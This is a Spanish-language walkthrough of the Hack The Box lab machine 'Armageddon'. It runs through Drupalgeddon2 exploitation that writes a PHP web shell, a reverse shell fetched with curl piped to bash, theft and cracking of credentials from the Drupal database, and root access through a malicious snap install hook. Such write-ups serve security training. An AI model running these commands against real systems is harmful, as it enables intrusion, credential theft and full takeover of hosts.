

# Armageddon

`Armageddon` es una máquina de dificultad fácil. Un sitio web Drupal explotable permite el acceso al host remoto. La enumeración de la estructura de archivos Drupal revela credenciales que nos permiten conectarnos al servidor MySQL y, eventualmente, extraer el hash que es reutilizable para un usuario del sistema. Usando estas credenciales, podemos conectarnos a la máquina remota a través de SSH. Este usuario puede instalar aplicaciones usando el administrador de paquetes `snap`. La escalada de privilegios es posible cargando e instalando en el host una aplicación maliciosa usando Snapcraft.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Armageddon**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.233 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-19 10:14 CET
Initiating SYN Stealth Scan at 10:14
Scanning 10.10.10.233 [65535 ports]
Discovered open port 22/tcp on 10.10.10.233
Discovered open port 80/tcp on 10.10.10.233
Completed SYN Stealth Scan at 10:14, 12.38s elapsed (65535 total ports)
Nmap scan report for 10.10.10.233
Host is up, received user-set (0.048s latency).
Scanned at 2025-02-19 10:14:07 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.50 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65545 (2.623MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.233
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache`.

```bash
❯ nmap -sCV -p22,80 10.10.10.233 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-19 10:15 CET
Nmap scan report for 10.10.10.233
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.2 - 4.14
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   80.04 ms 10.10.16.1
2   27.77 ms 10.10.10.233

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.85 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web.

```bash
❯ whatweb http://10.10.10.233
http://10.10.10.233 [200 OK] Apache[2.4.6], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.4.16], IP[10.10.10.233], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.4.16], PasswordField[pass], PoweredBy[Arnageddon], Script[text/javascript], Title[Welcome to  Armageddon |  Armageddon], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.4.16]
```

Revisaremos las cabeceras de la página web, en el resultado obtenido comprobamos la cabecera `X-Generator` la cual nos indica sobre la existencia del CMS `Drupal 7`.

```bash
❯ curl -I http://10.10.10.233
HTTP/1.1 200 OK
Date: Wed, 19 Feb 2025 01:52:24 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
Content-Language: en
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
Content-Type: text/html; charset=utf-8
```

Accederemos a [http://10.10.10.233](http://10.10.10.233) y comprobaremos que efectivamente se  trata del CMS de `Drupal`.


Drupal es un sistema de gestión de contenidos multipropósito, modular, libre y con una amplia capacidad de personalización. Te permite publicar archivos, imágenes, artículos, al igual que crear y administrar todo tipo de contenidos como votaciones, encuestas, foros, entre otros.


<figure><figcaption></figcaption></figure>

## Initial Foothold

### Drupal < 7.58 Exploitation - Drupalgeddon2 \[RCE] (CVE-2018-7600)

En la siguiente respuesta de [**Stack Overflow**](https://stackoverflow.com/questions/2887282/how-to-find-version-of-drupal-installed) nos indica una manera sencilla de verificar la versión exacta que se encuentra instalada de `Drupal`.

<figure><figcaption></figcaption></figure>

Revisaremos si el archivo `CHANGELOG.txt` se encuentra público en la página web. Comprobamos que hemos logrado obtener la versión exacta de `Drupal`, lo cual nos facilita intentar buscar vulnerabilidades para esa versión.

<figure><figcaption></figcaption></figure>

Revisaremos posibles vulnerabilidades de la versión de `Drupal 7`. En los resultados obtenidos, nos encontramos de una vulnerabilidad llamada `Drupalgeddon2` la cual nos permite obtener un `Remote Code Execution (RCE)`.

Esta vulnerabilidad está reportada a través del siguiente `CVE-2018-7600`.

<figure><figcaption></figcaption></figure>




Drupal anterior a 7.58, 8.x anterior a 8.3.9, 8.4.x anterior a 8.4.6 y 8.5.x anterior a 8.5.1 permite a atacantes remotos ejecutar código arbitrario debido a un problema que afecta a múltiples subsistemas con configuraciones de módulos predeterminadas o comunes.


Buscando por Internet, nos encontramos con el siguiente repositorio de GitHub en el cual nos proporcionan un PoC a través de un script realizado en `Ruby`.



```bash
❯ git clone https://github.com/dreadlocked/Drupalgeddon2; cd Drupalgeddon2
Clonando en 'Drupalgeddon2'...
remote: Enumerating objects: 257, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 257 (delta 0), reused 0 (delta 0), pack-reused 253 (from 1)
Recibiendo objetos: 100% (257/257), 102.12 KiB | 1.19 MiB/s, listo.
Resolviendo deltas: 100% (88/88), listo.
```

Realizaremos la explotación de la vulnerabilidad para lograr obtener una `shell` en el sistema vulnerable. Comprobamos que finalmente obtenemos acceso a la máquina y podemos ejecutar comandos arbitrarios.

```bash
❯ ruby drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo MYZIHMVA
[+] Result : MYZIHMVA
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> whoami; id; ip a
apache
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:9c:f5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.233/24 brd 10.10.10.255 scope global noprefixroute ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::69d1:bb00:780c:f997/64 scope global noprefixroute dynamic 
       valid_lft 86393sec preferred_lft 14393sec
    inet6 fe80::7648:5ea1:5371:b3b5/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

Dado que nos encontramos en la shell que nos proporciona el `script`, trataremos de obtener una consola `bash`. Para ello, el método que realizaremos es realizar una petición con `cURL` a nuestro script en `Bash` para lograr obtener la Reverse Shell.

Verificamos que el binario de `cURL` se encuentra instalado en el equipo objetivo.

```bash
armageddon.htb>> which curl
/usr/bin/curl
```

Desde otra terminal nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

En nuestro equipo loca, deberemos de disponer del siguiente script en `Bash` que es el que utilizaremos para obtener la Reverse Shell. El script lo compartiremos mediante un servidor web.

```bash
❯ cat shell.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Realizaremos desde el equipo víctima la petición con `cURL` al script que estamos compartiendo para que sea ejecutado a través de una `bash`.

```bash
armageddon.htb>> curl http://10.10.16.3/shell.sh|bash
```

Verificamos que logramos obtener acceso al sistema correctamente. El problema es que el usuario actual que disponemos `apache`, no tiene una shell como `sh` o `bash`, por lo tanto la consola que disponemos es bastante limitada.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.233] 39100
bash: no job control in this shell
bash-4.2$ echo $SHELL
echo $SHELL
/sbin/nologin
```

## Initial Access

### Information Leakage

Enumeraremos el directorio `/var/www/html/sites/default` en el cual nos encontraremos con un archivo de configuración `settings.php` el cual contiene las credenciales de acceso al `MySQL` de la base de datos que está utilizando `Drupal`.

```bash
bash-4.2$ pwd
/var/www/html/sites/default
bash-4.2$ cat settings.php
<?php

/**
 * Database settings:
 *
 * The $databases array specifies the database connection or
 * connections that Drupal may use.  Drupal is able to connect
 * to multiple databases, including multiple types of databases,
 * during the same request.
 *
 * Each database connection is specified as an array of settings,
 * similar to the following:
 * @code
 * array(
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

### SQL Enumeration

Dado que no disponemos de una `bash` para poder acceder al `MySQL` y realizar las consultas, haremos la ejecución del comando en la misma sintaxis del comando.

A continuación, revisaremos nos conectaremos con el usuario `drupaluser` a la base de datos `drupal` para enumerar las tablas presentes. En el resultado obtenido, verificamos que entre todas las tablas que se nos muestra, aparece la tabla `users` que quizás contenga credenciales.

```bash
bash-4.2$ mysql -h localhost -e "show tables;" -u drupaluser -pCQHEy@9M*m23gBVj drupal
Tables_in_drupal
...[snip]...
users
...[snip]...
```

Realizaremos una consulta para obtener todos los valores presentes en la tabla `users`. Comprobamos que hemos obtenido las credenciales en formato hash del usuario `brucetherealadmin`.

```bash
bash-4.2$ mysql -h localhost -e "SELECT * FROM users;" -u drupaluser -pCQHEy@9M*m23gBVj drupal
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu			filtered_html	1606998756	1607077194	1607076276	1	Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}
```

Intentaremos crackear el hash a través de `hashcat`. Verificamos que finalmente, logramos obtener las credenciales en texto plano del usuario mencionado.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

7900 | Drupal7 | Forums, CMS, E-Commerce

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```

Revisando los usuarios que disponían de `bash` en el equipo, nos encontramos al usuario encontrado en la base de datos de `drupal`. Con lo cual, quizás podamos iniciar sesión con ese usuario.

```bash
bash-4.2$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```

Verificamos si podemos acceder al `SSH` del equipo con las credenciales del usuario `brucetherealadmin`. Comprobamos el acceso y de la flag **user.txt**.

```bash
❯ sshpass -p booboo ssh brucetherealadmin@10.10.10.233
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ cat user.txt 
c13d01dd41***********************
```

## Privilege Escalation

### Abusing sudoers privilege (snap)

Revisando de si el usuario actual disponía de algún permiso de `sudoers`, nos encontramos que podía ejecutar como `sudo` el binario de `snap` para instalar paquetes.


Un Ubuntu Snap paquete, o simplemente Snap es un formato de distribución similar a AppImage en el que se pretende que sea un "paquete instalable universal" para desplegar software en sistemas Linux


```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

A través de la herramienta de [searchbins](https://github.com/r1vs3c/searchbins), realizaremos una consulta para verificar la manera de abusar de este binario que podemos ejecutar como `sudo` para lograr acceso como `root`.

````bash
❯ searchbins -b snap -f sudo

[+] Binary: snap

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/snap/#sudo]

It runs commands using a specially crafted Snap package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
```
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh
%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

	| sudo snap install xxxx_1.0_all.snap --dangerous --devmode
````

Primero, definimos el comando que queremos ejecutar al instalar el paquete Snap. En este caso, usamos `COMMAND=id` para comprobar si la ejecución se realiza con privilegios elevados. Luego, creamos un directorio temporal con `mktemp -d` y nos movemos a él para evitar conflictos con otros archivos.

Dentro de este directorio, generamos la estructura necesaria para el paquete Snap con `mkdir -p meta/hooks`, ya que Snap permite ejecutar scripts en ciertas etapas de la instalación mediante estos hooks. Luego, creamos el script malicioso con `printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install`, donde definimos que el script se ejecutará con `sh`, insertamos el comando `id` y agregamos `false` al final para evitar que Snap elimine el paquete después de ejecutarlo.

Una vez creado el script, le damos permisos de ejecución con `chmod +x meta/hooks/install` para asegurarnos de que pueda correr sin restricciones. Finalmente, usamos `fpm` para empaquetar todo en un archivo Snap ejecutable con `fpm -n xxxx -s dir -t snap -a all meta`. Esto genera el paquete `xxxx_1.0_all.snap`, que podremos instalar con privilegios de root para comprobar si tenemos acceso al sistema con permisos elevados.

```bash
❯ COMMAND=id
❯ cd $(mktemp -d)
❯ mkdir -p meta/hooks
❯ printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
❯ chmod +x meta/hooks/install
❯ 
❯ fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}
❯ ls -l
drwxrwxr-x kali kali  60 B  Wed Feb 19 10:33:58 2025  meta
.rw-r--r-- kali kali 4.0 KB Wed Feb 19 10:34:11 2025  xxxx_1.0_all.snap
```

Después de generar el paquete Snap malicioso, lo transferimos a la máquina objetivo utilizando `scp`. Este comando permite copiar archivos de manera segura entre sistemas a través de SSH.

```bash
❯ scp xxxx_1.0_all.snap brucetherealadmin@10.10.10.233:/tmp/
brucetherealadmin@10.10.10.233's password: 
xxxx_1.0_all.snap                     100% 4096    42.2KB/s   00:00 
```

En el equipo víctima, verificaremos que el archivo se ha transferido correctamente.

```bash
[brucetherealadmin@armageddon tmp]$ ls -l
total 4
-rw-r--r--. 1 brucetherealadmin brucetherealadmin 4096 feb 19 02:12 xxxx_1.0_all.snap
```

Si el comando muestra el `uid=0(root) gid=0(root)`, significa que el hook del paquete Snap se ejecutó como `root`. Esto confirma que tenemos la capacidad de ejecutar comandos con privilegios elevados.

```bash
[brucetherealadmin@armageddon tmp]$ sudo snap install xxxx_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0)
```

En este caso, modificamos el comando que se ejecutará en el hook de instalación del paquete Snap para que establezca una reverse shell hacia nuestra máquina atacante en la IP `10.10.16.3` y el puerto `443`.

El procedimiento sigue siendo el mismo: creamos la estructura del paquete, insertamos el script en `meta/hooks/install`, le damos permisos de ejecución y generamos el paquete con `fpm`.

Transferiremos este nuevo archivo Snap malicioso al equipo víctima.

```bash
❯ COMMAND="/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'"
❯ cd $(mktemp -d)
❯ mkdir -p meta/hooks
❯ printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
❯ chmod +x meta/hooks/install
❯ fpm -n xx -s dir -t snap -a all meta
Created package {:path=>"xx_1.0_all.snap"}
❯ scp xx_1.0_all.snap brucetherealadmin@10.10.10.233:/tmp/
brucetherealadmin@10.10.10.233's password: 
xx_1.0_all.snap                                                              100% 4096    40.6KB/s   00:00 
```

Desde una terminal nueva, nos pondremos en escucha con `nc` para recibir la conexión.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el Snap malicioso como `sudo`, si todo funciona bien deberíamos recibir una Reverse Shell.

```bash
[brucetherealadmin@armageddon tmp]$ sudo snap install xx_1.0_all.snap --dangerous --devmode
Run install hook of "xx" snap if present
```

Verificamos que finalmente hemos logrado obtener acceso como `root` y podemos comprobar la flag **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.233] 39110
bash: cannot set terminal process group (2767): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3# whoami
whoami
root
bash-4.3# cat /root/root.txt
cat /root/root.txt
861ec4fc42c**********************
```
